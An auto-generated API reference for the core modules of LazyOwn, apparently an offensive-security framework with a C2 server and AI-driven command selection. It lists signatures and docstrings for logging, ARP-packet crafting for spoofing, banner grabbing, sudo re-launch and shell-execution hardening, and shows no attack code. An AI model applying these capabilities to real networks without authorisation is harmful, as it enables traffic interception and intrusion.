**File Doc:** *Structured JSON-lines logging for the LazyOwn framework.  Replaces the historical ``print_msg`` / ``print_warn`` / ``print_error`` pattern with a unified JSON-lines logger that preserves ANSI-coloured console output AND writes machine-parseable entries to disk.  Contracts --------- * ``StructuredLogConfig``: every tunable — log level, output path, JSON vs plaintext, field redaction — lives here; no magic strings elsewhere. * ``StructuredLogger``: drop-in replacement for ``core.console`` helpers. Accepts ``extra`` kwargs that become top-level JSON fields. * ``get_logger(name)``: factory with lazy initialisation matching Python's ``logging.getLogger`` semantics. * ``install_json_handler``: one-time wiring that adds a rotating JSON-lines file handler without disturbing existing console handlers.  Usage::  from core.logging import StructuredLogConfig, get_logger  _log = get_logger("lazyc2.api")  # Human-readable console + JSON-lines audit entry _log.info("Beacon checked in", extra={"client_id": "abc", "rhost": "10.0.0.5"})*

**Classes:**
- `StructuredLogConfig` (line 42) `class StructuredLogConfig` - *Configuration contract for structured logging.

All log-related settings are centralized here. The framework reads
these from ``payload.json`` keys prefixed with ``log_``.*
- `_JsonLineFormatter` (line 71) `class _JsonLineFormatter(Formatter)` - *Format a log record as a single JSON line.*
- `_ConsoleFormatter` (line 121) `class _ConsoleFormatter(Formatter)` - *ANSI-coloured console formatter matching ``core.console`` style.*
- `StructuredLogger` (line 139) `class StructuredLogger(Logger)` - *Logger subclass that accepts ``extra`` kwargs as structured fields.

Every keyword in ``extra`` is stored on the record and appears as a
top-level key in the JSON-lines output. Sensitive fields matching
``StructuredLogConfig.redacted_fields`` are replaced with ``[REDACTED]``
before serialization.*

**Functions:**
- `_log_factory` (line 180) `def _log_factory(name, config)` - *Create or retrieve a :class:`StructuredLogger` instance.

Args:
    name: The logger name (typically ``__name__``).
    config: Optional configuration. When ``None``, defaults are used.

Returns:
    A :class:`StructuredLogger` wired up with console + file handlers.*
- `get_logger` (line 231) `def get_logger(name)` - *Return a cached :class:`StructuredLogger` for *name*.

On first call the default configuration is applied. Subsequent calls
with the same *name* return the same logger instance.

Args:
    name: The logger name. Defaults to ``"lazyown"``.

Returns:
    A configured :class:`StructuredLogger`.*
- `install_json_handler` (line 251) `def install_json_handler(name, config)` - *Install a JSON-lines file handler on *name*, preserving existing handlers.

When the logger already owns handlers (a custom console sink, a
library-configured appender) they are left untouched and only the
JSON file handler is appended. When the logger is cold it receives
the standard console plus file wiring from :func:`_log_factory`.
The operation is idempotent: a second call with the same name and
configuration adds nothing.

Args:
    name: The logger name to wire.
    config: Optional configuration override, cached for future
        :func:`get_logger` calls.*
- `reconfigure` (line 300) `def reconfigure(config)` - *Replace the cached configuration globally.

All future ``get_logger()`` calls will use *config*. Existing
loggers in the cache are refreshed.

Args:
    config: The new configuration to apply.*

**Methods:**
- `__init__` (line 74) `def __init__(self, redacted_fields)`
- `format` (line 78) `def format(self, record)`
- `format` (line 132) `def format(self, record)`
- `makeRecord` (line 148) `def makeRecord(self, name, level, fn, lno, msg, args, exc_info, func, extra, sinfo)`

#### `network.py`
**Path:** `core/network.py`
**File Doc:** *Network primitives for the LazyOwn framework.  Extracted from ``utils.py`` — ARP spoofing, socket operations, port detection, and network parsing utilities.*

**Functions:**
- `parse_ip_mac` (line 18) `def parse_ip_mac(input_string)` - *Extract IP and MAC from a formatted string.

Expected format: ``IP: (192.168.1.222) MAC: ec:c3:02:b0:4c:96``

Returns:
    ``(ip, mac)`` tuple or ``(None, None)`` on failure.*
- `create_arp_packet` (line 33) `def create_arp_packet(src_mac, src_ip, dst_ip, dst_mac)` - *Build a raw ARP request/reply packet.

Args:
    src_mac: Source MAC (``xx:xx:xx:xx:xx:xx``).
    src_ip: Source IP (dotted decimal).
    dst_ip: Destination IP.
    dst_mac: Destination MAC.

Returns:
    Raw Ethernet + ARP frame bytes.*
- `send_packet` (line 66) `def send_packet(packet, iface)` - *Send a raw packet on a given network interface.

Args:
    packet: Raw frame bytes.
    iface: Interface name (e.g. ``eth0``).*
- `parse_proc_net_file` (line 78) `def parse_proc_net_file(file_path)` - *Parse a ``/proc/net/*`` file and extract (ip, port) pairs.

Args:
    file_path: Path to a ``/proc/net/tcp``-style file.

Returns:
    List of ``(ip_address, port)`` tuples.*
- `get_open_ports` (line 105) `def get_open_ports()` - *Discover listening TCP ports from ``/proc/net/tcp`` and ``tcp6``.

Returns:
    List of ``(ip, port)`` tuples for listening endpoints.*
- `is_port_in_use` (line 120) `def is_port_in_use(port, host)` - *Check whether a TCP port is already bound.

Args:
    port: Port number.
    host: Host to check (default ``127.0.0.1``).

Returns:
    True if the port is in use.*
- `get_banner` (line 134) `def get_banner(ip, port)` - *Grab a TCP banner from the given host and port.

Args:
    ip: Target IP.
    port: Target port.

Returns:
    Banner string, or an empty string on failure.*
- `get_network_info` (line 154) `def get_network_info()` - *Collect local network information.

Returns:
    Dict with keys ``hostname``, ``ips``, ``interfaces``.*

#### `parsers.py`
**Path:** `core/parsers.py`
**File Doc:** *Shared text kernel for the LazyOwn framework.  Single-implementation rule: the live helpers live in ``utils`` (used by the CLI and C2). This module keeps only ``strip_ansi``, the one extraction the framework actually imports. The rest of the historic ``utils.py`` fork was removed because every copy had diverged and zero callers (see ``tests/test_single_implementation.py``).*

**Functions:**
- `strip_ansi` (line 15) `def strip_ansi(text)` - *Remove ANSI escape sequences and readline markers from a string.

Handles standard escape codes (``[...m``), extended unicode
escape initiators (````, ``›``), CSI sequences, and the
````/```` (SOH/STX) delimiters that ``render_prompt`` emits
so readline can measure prompt width.

Args:
    text: Raw terminal output.

Returns:
    Clean text without ANSI codes or readline control markers.*

#### `payload_schema.py`
**Path:** `core/payload_schema.py`
**File Doc:** *Declarative schema and validation for ``payload.json``.  ``payload.json`` is the single source of runtime configuration for every component of LazyOwn (CLI, C2, MCP, autonomous daemon). Historically it has been a free-form dictionary: any key/value was accepted at load time, and each consumer rediscovered the right type with ad-hoc casts. Typos in keys silently degraded features instead of surfacing as errors, and string values that needed to be integers (``"5555"`` vs ``5555``) caused failures deep inside subprocess calls.  This module introduces a thin, additive validation layer:  * :class:`FieldSpec` declares the expected type, default, and human-readable documentation for every well-known payload key. * :func:`validate_value` checks a single value against its spec. * :func:`validate_payload` returns the full list of issues without raising, so backwards compatibility is preserved — callers decide whether to warn or block. * :func:`coerce_value` performs safe, well-defined coercions (e.g. parsing ``"5555"`` into ``5555`` when the field is declared as an integer port).  The schema is the source of truth for the setup wizard as well — every prompt label, default, validator and example value comes from here so a new field is defined in exactly one place.  Design rules:  - Adding a new well-known key means adding a :class:`FieldSpec` here; no other module needs to change to surface the documentation. - Validation is intentionally non-fatal: unknown keys are warnings (so*

**Classes:**
- `FieldKind` (line 73) `class FieldKind(StrEnum)` - *Categorical type of a payload field used by validators and the wizard.*
- `Severity` (line 91) `class Severity(StrEnum)` - *Severity of a :class:`ValidationIssue`.*
- `FieldSpec` (line 100) `class FieldSpec` - *Declarative description of a payload field.

Attributes:
    name: Key as it appears in ``payload.json``.
    kind: Categorical :class:`FieldKind` controlling validation and
        coercion behaviour.
    default: Value used when bootstrapping a brand new payload.
    description: One-line plain-language explanation suitable for
        help text and wizard tooltips.
    long_help: Multi-line explanation used by the wizard's tutorial
        mode. Newlines are preserved verbatim.
    example: Concrete example value shown to novices.
    category: Logical grouping (``network``, ``c2``, ``recon``, ``ai``,
        ``credentials``, ``wordlists``, ``email``, ``misc``).
    sensitive: When ``True`` the wizard masks the value in summaries.
    required: When ``True`` an empty/missing value is reported as an
        error rather than a warning.
    allowed: Optional whitelist of acceptable values for enum-like fields.
    min_value: Optional inclusive lower bound for numeric fields.
    max_value: Optional inclusive upper bound for numeric fields.
    custom_validator: Optional callable returning ``None`` when the
        value is valid or a string message when it is not. Runs after
        the kind-based validator.*
- `ValidationIssue` (line 142) `class ValidationIssue` - *Structured outcome of a single validation check.

Issues are returned as a list so consumers can render them as a table,
emit a single warning, or short-circuit on the first error. The
:attr:`severity` field makes it explicit which issues are advisory and
which must be addressed before the value can be used.

Attributes:
    key: Name of the offending field.
    message: Human-readable explanation of the problem.
    severity: One of :class:`Severity`. Callers should treat warnings
        as advisory and errors as blocking.
    value: The raw value that produced the issue. Sensitive fields are
        masked by :func:`format_issue` so logs do not leak credentials.*

**Functions:**
- `_validate_string` (line 165) `def _validate_string(value)`
- `_validate_int` (line 171) `def _validate_int(value)`
- `_validate_port` (line 185) `def _validate_port(value)`
- `_validate_bool` (line 195) `def _validate_bool(value)`
- `_validate_ip` (line 212) `def _validate_ip(value)`
- `_validate_hostname` (line 220) `def _validate_hostname(value)`
- `_validate_url` (line 232) `def _validate_url(value)`
- `_validate_path` (line 240) `def _validate_path(value)`
- `_validate_interface` (line 246) `def _validate_interface(value)`
- `_validate_hex` (line 254) `def _validate_hex(value)`
- `_validate_os_id` (line 262) `def _validate_os_id(value)`
- `_validate_json_blob` (line 268) `def _validate_json_blob(value)`
- `_validate_opaque` (line 280) `def _validate_opaque(_value)`
- `_coerce_int` (line 301) `def _coerce_int(raw)`
- `_coerce_bool` (line 316) `def _coerce_bool(raw)`
- `_spec` (line 335) `def _spec(name, kind, default, description)`
- `field_for` (line 1547) `def field_for(key)` - *Return the :class:`FieldSpec` for ``key`` or ``None`` if it is unknown.*
- `coerce_value` (line 1552) `def coerce_value(key, raw)` - *Return ``raw`` coerced to the canonical type declared for ``key``.

Unknown keys and values that already satisfy the schema are returned
unchanged. Coercion is intentionally narrow: only ``int``/``port`` and
boolean-like strings are converted. This keeps the function safe for
use inside the ``assign`` command without surprising operators.

Args:
    key: Payload key as written in ``payload.json``.
    raw: Value about to be assigned.

Returns:
    The coerced value, or ``raw`` unchanged when no coercion is
    defined for the field's kind.*
- `validate_value` (line 1575) `def validate_value(key, value)` - *Validate ``value`` against the schema entry for ``key``.

Returns:
    ``None`` when the value is acceptable; otherwise a
    :class:`ValidationIssue` whose severity is ``ERROR`` when the
    field is declared as required and either missing or invalid, and
    ``WARNING`` for soft constraints (out-of-range integers, bad
    format on optional fields). Unknown keys produce a warning so the
    caller knows the value will not be type-checked.*
- `validate_payload` (line 1649) `def validate_payload(payload)` - *Validate an entire payload dictionary and return all issues found.

The check is intentionally exhaustive — it returns issues for every
key, including unknown ones, so callers can decide which severity
levels to surface. No exception is ever raised, which preserves the
historical contract that loading ``payload.json`` must never crash
the framework just because a field is malformed.

Args:
    payload: Dictionary loaded from ``payload.json``.

Returns:
    Possibly empty list of :class:`ValidationIssue`. Required fields
    that are missing from the payload entirely are reported with
    :class:`Severity.ERROR`.*
- `format_issue` (line 1684) `def format_issue(issue)` - *Render a :class:`ValidationIssue` as a single human-readable line.

Sensitive fields have their value redacted so log scrapers do not
expose credentials. The format intentionally mirrors GCC-style
diagnostics (``key: severity: message``) so it grep-friendly.*
- `default_payload` (line 1702) `def default_payload()` - *Return a freshly built payload dict populated from the schema defaults.

Useful for tests and for the wizard when no ``payload.json`` exists.*
- `categories` (line 1710) `def categories()` - *Return schema entries grouped by :attr:`FieldSpec.category`.

Used by the wizard to render category-aware tables and by future
documentation generators.*

#### `process.py`
**Path:** `core/process.py`
**File Doc:** *Process and subprocess utilities for the LazyOwn framework.  Extracted from ``utils.py`` — command execution, binary/package detection, sudo escalation, virtualenv activation.*

**Functions:**
- `check_go_tool_installed` (line 34) `def check_go_tool_installed(tool_name)` - *Check if a Go tool binary is installed and runnable.

Args:
    tool_name: Name of the binary to check.

Returns:
    True if the tool responds with a zero exit code to ``help``.*
- `is_binary_present` (line 54) `def is_binary_present(binary_name)` - *Check whether binary is on ``PATH``.

Uses ``shutil.which`` — no shell spawning, no injection surface.

Args:
    binary_name: Name of the binary.

Returns:
    True if found on PATH.*
- `handle_multiple_rhosts` (line 68) `def handle_multiple_rhosts(func)` - *Decorator that iterates over a list of remote hosts.

Wraps a shell method so it runs against each host in
``self.params["rhost"]``.  The original host is restored after
each iteration.

Args:
    func: The method to wrap.

Returns:
    The decorated wrapper.*
- `check_sudo` (line 97) `def check_sudo()` - *Re-launch the script with ``sudo`` if not already root.

Exits the current process and replaces it with a sudo invocation.*
- `run` (line 108) `def run(command)` - *Execute a shell command via ``SafeRunner``.

Args:
    command: Shell command string.

Returns:
    Stripped stdout on success, error message on failure.*
- `is_package_installed` (line 143) `def is_package_installed(package_name)` - *Check whether a Python package is importable.

Args:
    package_name: Name of the package (e.g. ``requests``).

Returns:
    True if ``importlib.util.find_spec`` succeeds.*
- `_print_run_command_status` (line 159) `def _print_run_command_status(command, elapsed, exit_code)` - *Print a dim completion line (elapsed time + exit code) after a run.

Only shown on interactive terminals and only when the command took long
enough to matter (``RUN_COMMAND_STATUS_MIN_SECONDS``) or reported a
non-zero exit, so quick aliases stay silent while long scans and failed
tools always leave a visible trace. Never touches the returned output.*
- `run_command` (line 183) `def run_command(command, timeout)` - *Run a command, streaming output in real time.

Uses ``subprocess.Popen`` to execute ``command``, printing stdout and
stderr as they arrive and returning the complete output string.

stderr is drained on a worker thread so a chatty process writing to
stderr while stdout is quiet can never deadlock the read loop.

Args:
    command: The command string to execute.
    timeout: Optional per-command timeout in seconds. When exceeded the
        process is killed and the partial output is returned.

Returns:
    Combined stdout + stderr output.*
- `ensure_tmux_session` (line 253) `def ensure_tmux_session(session_name)` - *Create a tmux session if it does not already exist.

Args:
    session_name: Name for the tmux session.*
- `activate_server` (line 271) `def activate_server(httpd, url, lhost)` - *Start an HTTP server and print the serving URL.

Args:
    httpd: An HTTPServer instance with a ``serve_forever`` method.
    url: URL path for the server.
    lhost: Listening host address.*
- `wrapper` (line 82) `def wrapper(self)`
- `_drain_stderr` (line 220) `def _drain_stderr()`

#### `profiles.py`
**Path:** `core/profiles.py`
**File Doc:** *Runtime profiles: ``light`` vs ``full`` installations.  The profile selects how much of the framework is expected to be present:  - ``full`` (default): every current behavior. Shell, C2, recon, analytics, and optional AI/LLM features that degrade gracefully when their packages are missing. - ``light``: shell + C2 + recon core without the analytics and AI stack. The installer skips the heavy data/AI distributions and ``doctor`` does not require them.  Selection is explicit and never guessed: the ``LAZYOWN_PROFILE`` environment variable wins, otherwise ``full`` applies. Anything else is a :exc:`ValueError` so typos fail loudly instead of silently changing behavior.*

**Functions:**
- `active_profile` (line 40) `def active_profile()` - *Return the selected runtime profile.

Returns:
    ``"light"`` when ``LAZYOWN_PROFILE=light`` (case-insensitive,
    surrounding whitespace ignored), otherwise ``"full"``.

Raises:
    ValueError: When ``LAZYOWN_PROFILE`` is set to anything else.*
- `is_light` (line 59) `def is_light()` - *Return ``True`` when the light profile is selected.*
- `specs_for_profile` (line 64) `def specs_for_profile(specs)` - *Filter dependency specs down to the ones the active profile needs.

Args:
    specs: :class:`cli.doctor.PackageSpec` entries (or any objects with
        an ``import_name`` attribute).

Returns:
    Full list under the full profile; the list minus
    :data:`LIGHT_SKIPPED_IMPORTS` under the light profile.*

#### `prompt.py`
**Path:** `core/prompt.py`
**File Doc:** *Prompt builder for LazyOwn CLI and C2 dashboard banner.  Exposes :func:`getprompt` which returns the coloured status line shown in both the CLI header and the C2 web dashboard. Extracted from ``utils.py`` to break the 3358-line monolith.*

**Functions:**
- `_load_prompt_payload` (line 17) `def _load_prompt_payload()` - *Load ``payload.json`` and return a dict with default values.

Returns:
    Dict with ``lhost``, ``rhost``, ``domain``, ``api_key`` keys.*
- `get_git_info` (line 35) `def get_git_info()` - *Return current git branch and dirty-status for the prompt.

Returns an empty string if git is not available or the working
tree is not a git repo.*
- `get_venv_info` (line 60) `def get_venv_info()` - *Return the active virtualenv name, or empty string if none.*
- `get_kernel` (line 68) `def get_kernel()` - *Return the running kernel version (short form).*
- `get_terminal_size` (line 78) `def get_terminal_size()` - *Return ``(width, height)`` of the terminal, defaulting to 80x24.*
- `get_local_ips` (line 87) `def get_local_ips()` - *Return a comma-separated string of non-loopback IPv4 addresses.*
- `copy2clip` (line 109) `def copy2clip(text)` - *Copy ``text`` to the system clipboard via xclip.

Returns True on success, False if xclip is unavailable.*
- `getprompt` (line 127) `def getprompt()` - *Build the coloured status line for the CLI header and C2 dashboard.

Returns a Rich-formatted string containing the current session
context: operator@host, network interfaces, target, domain, git
branch, virtualenv, and timestamp.

Returns:
    A Rich-console compatible string.*

#### `protocols.py`
**Path:** `core/protocols.py`
**File Doc:** *Stable structural interfaces (PEP 544 ``Protocol``) for high-level orchestration.  These protocols are the contract used by ``skills/autonomous_daemon.py``, ``skills/swan_agent.py`` and the MCP layer. New backends, selectors and memory stores must implement these signatures so the orchestration layer never depends on a concrete implementation (Dependency Inversion).  Type-only — no runtime side effects.*

**Classes:**
- `Selector` (line 17) `class Selector(Protocol)` - *Suggests the next command for a given target/phase.

Implementations include ``ReactiveSelector``, ``ParquetSelector``,
``BridgeSelector``, ``SWANSelector``, ``LLMSelector`` and
``FallbackSelector``.*
- `LLMBackend` (line 37) `class LLMBackend(Protocol)` - *Pluggable language model backend (Groq, Ollama, Claude, ...).*
- `MemoryStore` (line 51) `class MemoryStore(Protocol)` - *Persistent key/value store used by hive_mind, parquet_db and rag layers.*
- `BridgeCatalog` (line 62) `class BridgeCatalog(Protocol)` - *Catalog of executable commands keyed by phase + OS.*
- `OutcomeEvaluator` (line 70) `class OutcomeEvaluator(Protocol)` - *Scores the outcome of an executed command for RL/MoE feedback.*

**Methods:**
- `suggest` (line 27) `def suggest(self, target, phase, context)` - *Return ``{"command": str, "reasoning": str, "mitre": str}`` or ``None``.*
- `complete` (line 40) `def complete(self, system, user, max_tokens, temperature)` - *Return the model completion as a string.*
- `put` (line 54) `def put(self, key, value)`
- `get` (line 56) `def get(self, key, default)`
- `search` (line 58) `def search(self, query, k)`
- `filter` (line 65) `def filter(self, phase, os_id)` - *Return command entries matching ``phase`` and ``os_id``.*
- `evaluate` (line 73) `def evaluate(self, command, output, target, phase)` - *Return a reward in ``[0.0, 1.0]``.*

#### `safe_console.py`
**Path:** `core/safe_console.py`
**File Doc:** *Terminal-safe Rich console factory.  Colors and unicode glyphs are only safe when the sink interprets them. This module centralises that decision so no surface ever leaks raw ANSI codes (``?[32m``) or placeholder boxes (``?`` for ``╭─✔█``) again:  - Rich auto-detection already drops ANSI on non-tty / NO_COLOR / TERM=dumb sinks — every console here keeps those defaults. - When stdout cannot encode UTF-8, panels switch to the ASCII box and glyph helpers degrade to ``[x]``/``[>]``/``[ ]``/``#``/``-``.*

**Functions:**
- `supports_unicode` (line 33) `def supports_unicode()` - *Return True when stdout can encode box-drawing glyphs and emoji.*
- `get_console` (line 42) `def get_console()` - *Build a Rich console with safe color/box defaults.

Callers may pass Rich ``Console`` options (``width``, ``file``);
``color_system``/``force_terminal`` are left on auto so piped or
crippled sinks never receive raw escape codes.*
- `panel_box` (line 52) `def panel_box()` - *Return the ROUNDED box on UTF-8 sinks, ASCII otherwise.*
- `milestone_glyph` (line 57) `def milestone_glyph(state)` - *Glyph for a milestone state: done / active / pending (or other).*
- `progress_bar` (line 67) `def progress_bar(ratio, width)` - *Fixed-width fill bar, unicode blocks or ASCII hashes.*

#### `safe_exec.py`
**Path:** `core/safe_exec.py`
**File Doc:** *Centralized safe command execution for the LazyOwn framework.  Contract: replaces all ``os.system()`` and ``subprocess.run(shell=True)`` call sites with a single, audited, default-deny execution path.  Invariants:  1. ``safe_system`` never passes user-controlled strings to a shell. 2. ``safe_run_argv`` always uses ``shell=False``. 3. ``safe_run_shell`` requires explicit ``allow=True`` plus a reason. 4. ``safe_clear_screen`` uses the terminal capability query, never os.system. 5. ``validate_url`` rejects shell metacharacters in URLs before git clone. 6. ``safe_git_clone`` uses subprocess list-form, never os.system. 7. ``safe_ip_display`` parses ``ip`` output in Python, never via shell pipes.*

**Classes:**
- `CommandInjectionError` (line 44) `class CommandInjectionError(PermissionError)` - *Raised when a command contains shell metacharacters.*
- `UrlValidationError` (line 48) `class UrlValidationError(PermissionError)` - *Raised when a URL contains shell metacharacters.*

**Functions:**
- `needs_shell` (line 52) `def needs_shell(command)` - *Return True when a command string needs a shell to be interpreted.

A command that only carries a program and its arguments runs with
``shlex.split`` and ``shell=False``. Redirections, pipes, command
chaining, substitutions, globs, and tilde expansion need a shell.

Args:
    command: The command string to inspect.
Returns:
    True when the command must run through ``bash -c``.*
- `safe_system` (line 69) `def safe_system(command)` - *Execute a fixed command string through the shell safely.

Only allows pre-defined, non-user-controlled command strings.
Rejects any command containing shell metacharacters that could
indicate injection.

Prefer :func:`safe_run_argv` for any new call site: this helper keeps
``shell=True`` for legacy fixed strings and must never receive
interpolated user input.

Args:
    command: A fixed command string (no user interpolation).
    reason: Audit justification.

Returns:
    The exit code of the command.

Raises:
    CommandInjectionError: If the command contains metacharacters.
    ValueError: If command is empty.*
- `safe_run_argv` (line 106) `def safe_run_argv(argv)` - *Execute a command via subprocess without shell interpretation.

Args:
    argv: Program and arguments as a sequence. Must not be empty.
    timeout: Optional wall-clock timeout in seconds.
    capture_output: Whether to capture stdout and stderr.
    check: Whether to raise on non-zero exit.
    input_data: Optional stdin content.

Returns:
    CompletedProcess result.

Raises:
    ValueError: If argv is empty.*
- `safe_run_shell` (line 146) `def safe_run_shell(command)` - *Execute a command through the shell, gated by policy.

Args:
    command: The shell command to run.
    allow: Must be True to execute.
    reason: Free-text justification.
    timeout: Optional wall-clock timeout.
    cwd: Optional working directory, preserves caller behaviour.

Returns:
    CompletedProcess result.

Raises:
    PermissionError: When allow is not True.
    ValueError: When allow is True but reason is empty.*
- `safe_clear_screen` (line 192) `def safe_clear_screen()` - *Clear the terminal screen without using os.system.

Uses tput reset via subprocess list-form, falling back to
ANSI escape sequences when tput is unavailable.*
- `validate_url` (line 207) `def validate_url(url)` - *Validate a URL string, rejecting shell metacharacters.

Args:
    url: The URL to validate.

Returns:
    The validated URL string.

Raises:
    UrlValidationError: If the URL contains shell metacharacters
        or does not match the expected URL pattern.
    ValueError: If the URL is empty.*
- `safe_git_clone` (line 234) `def safe_git_clone(repo_url, target_dir)` - *Clone a git repository safely using subprocess list-form.

Never uses os.system. Validates the URL before execution.

Args:
    repo_url: The git repository URL (http/https only).
    target_dir: The target directory path.
    timeout: Clone timeout in seconds.

Returns:
    CompletedProcess result.

Raises:
    UrlValidationError: If the URL is invalid.*
- `safe_ip_show` (line 268) `def safe_ip_show(interface)` - *Parse IP addresses from ``ip show`` output in Python.

Replaces shell pipes like ``ip a show ... | awk | grep | cut``.

Args:
    interface: The ip show filter argument.

Returns:
    List of dicts with 'interface' and 'address' keys.*
- `safe_find_tool` (line 305) `def safe_find_tool(name)` - *Find a tool on PATH using shutil.which.

Replaces hardcoded paths like ``/usr/local/bin/go``.

Args:
    name: The executable name to find.

Returns:
    Absolute path to the tool, or None if not found.*
- `safe_file_read` (line 321) `def safe_file_read(path)` - *Read a file safely with a size limit.

Args:
    path: File path to read.
    max_bytes: Maximum bytes to read.

Returns:
    File contents as string.

Raises:
    ValueError: If the file exceeds max_bytes.
    FileNotFoundError: If the file does not exist.*

#### `safe_import.py`
**Path:** `core/safe_import.py`
**File Doc:** *Fail-closed import of attacker-supplied campaign packages.  Campaign ``.zip`` files arrive from other operators and may be malicious. This module owns the two trust boundaries of the import path: archive extraction (ZipSlip) and schema merge (second-order SQL from hostile column names). Callers in ``cli/commands/campaign`` must route through these helpers instead of ``extractall`` and raw ``", ".join(columns)``.*

**Functions:**
- `is_safe_identifier` (line 20) `def is_safe_identifier(name)` - *Return True when ``name`` is a bare SQL identifier.

Args:
    name: Candidate column or table fragment.

Returns:
    True for ``[A-Za-z_][A-Za-z0-9_]*``, False otherwise.*
- `filter_columns` (line 32) `def filter_columns(src_columns, dest_columns)` - *Intersect source columns with destination columns, safely.

Only names present in the destination schema and matching the
bare-identifier pattern survive, in source order. Hostile or
unknown columns are dropped so one poisoned column cannot break
or inject into the whole import.

Args:
    src_columns: Column names read from the imported database.
    dest_columns: Column names of the destination table.

Returns:
    Safe ordered subset of ``src_columns``.*
- `safe_extract_zip` (line 51) `def safe_extract_zip(archive, dest)` - *Extract a zip archive with ZipSlip protection.

Every member is validated before writing: absolute paths, parent
references and symlink entries are skipped, and the resolved
target must stay inside ``dest`` after symlink resolution.

Args:
    archive: Path to the ``.zip`` file.
    dest: Directory receiving the extracted tree.

Returns:
    Relative paths of the extracted members.*
- `safe_copy_tree` (line 93) `def safe_copy_tree(src, dest)` - *Copy a directory tree without symlink escape.

Mirrors the campaign session-restore loop: symlinks are never
followed, and every destination stays inside ``dest``.

Args:
    src: Source directory.
    dest: Destination directory.

Returns:
    Number of files copied.*

#### `safe_subprocess.py`
**Path:** `core/safe_subprocess.py`
**File Doc:** *Safe subprocess runner for the LazyOwn framework.  Contract: this module replaces the legacy ``subprocess.run(..., shell=True, ...)`` call sites that pepper :mod:`utils` and :mod:`lazyc2`. The default behaviour is to refuse shell execution; callers that genuinely need the shell must pass ``allow=True`` and a free-text ``reason`` that is recorded in the audit log together with the returncode.  Invariants:  1. :meth:`SafeRunner.run_shell` raises :class:`ShellNotAllowedError` when ``allow`` is missing or ``False``. 2. :meth:`SafeRunner.run_shell` requires a non-empty ``reason``; an empty string raises :class:`ValueError`. 3. :meth:`SafeRunner.run` (argv list) is always allowed and never audits. 4. The audit log, when configured, receives a single JSON line per ``run_shell`` call (allowed and denied attempts alike). 5. The returned :class:`SafeRunResult` exposes ``returncode``, ``stdout``, ``stderr`` and ``duration_seconds``.  Config keys owned: none (the audit log path is supplied at construction).*

**Classes:**
- `ShellNotAllowedError` (line 39) `class ShellNotAllowedError(PermissionError)` - *Raised when a shell invocation is attempted without ``allow=True``.*
- `SafeRunResult` (line 44) `class SafeRunResult` - *Outcome of a :class:`SafeRunner` invocation.

Attributes:
    returncode: The exit code of the process.
    stdout: Captured standard output.
    stderr: Captured standard error.
    duration_seconds: Wall-clock execution time.*
- `SafeRunner` (line 60) `class SafeRunner` - *Default-deny shell runner used by the LazyOwn framework.

Args:
    audit_log_path: Optional filesystem path. When provided, every
        ``run_shell`` call is appended as a single JSON line.*

**Methods:**
- `__init__` (line 70) `def __init__(self, audit_log_path)`
- `run` (line 73) `def run(self, argv)` - *Execute ``argv`` without invoking a shell.

Args:
    argv: The program and its arguments as a sequence of strings.
    timeout: Optional wall-clock timeout in seconds.

Returns:
    A :class:`SafeRunResult` describing the outcome.

Raises:
    FileNotFoundError: if the program does not exist.
    subprocess.TimeoutExpired: if the timeout elapses.*
- `run_shell` (line 105) `def run_shell(self, command)` - *Execute ``command`` through the system shell, gated by policy.

Args:
    command: The shell command to run.
    allow: Must be ``True`` to execute; otherwise a
        :class:`ShellNotAllowedError` is raised (and audited).
    reason: Free-text justification, recorded in the audit log.
        Required when ``allow`` is ``True``.
    timeout: Optional wall-clock timeout in seconds.

Returns:
    A :class:`SafeRunResult` describing the outcome.

Raises:
    ShellNotAllowedError: when ``allow`` is not ``True``.
    ValueError: when ``allow`` is ``True`` but ``reason`` is empty.*
- `_audit` (line 176) `def _audit(self, record)`

#### `scheduler.py`
**Path:** `core/scheduler.py`
**File Doc:** *Centralized task scheduler for the LazyOwn framework.  Uses ``apscheduler`` when available, falling back to a stdlib implementation built on ``sched.scheduler`` and ``threading.Timer`` for environments where the library is not installed. Thread-safe for concurrent task registration and cancellation from any thread.  Usage::  from core.scheduler import get_scheduler  sched = get_scheduler() sched.start() sched.schedule_task("heartbeat", 30, send_heartbeat) sched.schedule_once("cleanup", 60, remove_temp_files) sched.stop()*

**Classes:**
- `_TaskInfo` (line 41) `class _TaskInfo`
- `TaskScheduler` (line 50) `class TaskScheduler` - *Thread-safe scheduler for recurring and one-shot tasks.

Automatically selects ``apscheduler`` (BackgroundScheduler) when
available, falling back to a stdlib implementation using
``sched.scheduler`` and ``threading.Timer`` otherwise.*

**Functions:**
- `get_scheduler` (line 285) `def get_scheduler()` - *Return the singleton ``TaskScheduler`` instance.*
- `_wrapper` (line 241) `def _wrapper()`
- `_wrapper` (line 257) `def _wrapper()`

**Methods:**
- `__init__` (line 61) `def __init__(self)`
- `instance` (line 73) `def instance(cls)` - *Return the singleton ``TaskScheduler`` instance.*
- `start` (line 81) `def start(self)` - *Start the scheduler background thread.

Idempotent: calling ``start()`` on an already-running scheduler is a
no-op.*
- `stop` (line 100) `def stop(self)` - *Stop the scheduler and cancel all pending tasks.

Idempotent: calling ``stop()`` on an already-stopped scheduler is a
no-op.*
- `schedule_task` (line 123) `def schedule_task(self, name, interval_seconds, func)` - *Register a recurring task to run every ``interval_seconds``.

If a task with the same ``name`` already exists it is cancelled and
replaced.

Args:
    name: Unique identifier for the task.
    interval_seconds: Seconds between invocations.
    func: Zero-argument callable to invoke each cycle.*
- `schedule_once` (line 157) `def schedule_once(self, name, delay_seconds, func)` - *Register a one-shot task to run after ``delay_seconds``.

If a task with the same ``name`` already exists it is cancelled and
replaced.

Args:
    name: Unique identifier for the task.
    delay_seconds: Seconds to delay before invocation.
    func: Zero-argument callable to invoke.*
- `cancel_task` (line 192) `def cancel_task(self, name)` - *Cancel a scheduled task by name.

No error is raised if the task does not exist.

Args:
    name: Identifier of the task to cancel.*
- `list_tasks` (line 205) `def list_tasks(self)` - *Return metadata for all registered tasks.

Returns:
    A list of dictionaries with keys ``name``, ``interval_seconds``,
    ``recurring``, ``active``, and ``next_run_iso``.*
- `_cancel_internal` (line 224) `def _cancel_internal(self, name)` - *Cancel a task without holding ``_lock``.

Called from within locked sections only.*
- `_schedule_recurring_stdlib` (line 238) `def _schedule_recurring_stdlib(self, info)` - *Schedule a recurring task using ``sched.scheduler``.*
- `_run_once_wrapper` (line 254) `def _run_once_wrapper(self, name, func)` - *Return a callable that invokes ``func`` once and removes the task.*
- `_run_stdlib_loop` (line 268) `def _run_stdlib_loop(self)` - *Main loop for the stdlib scheduler backend.

Runs sched actions in a tight loop with a periodic check on the stop
event, so ``stop()`` is responsive even when no events are pending.*

#### `security.py`
**Path:** `core/security.py`
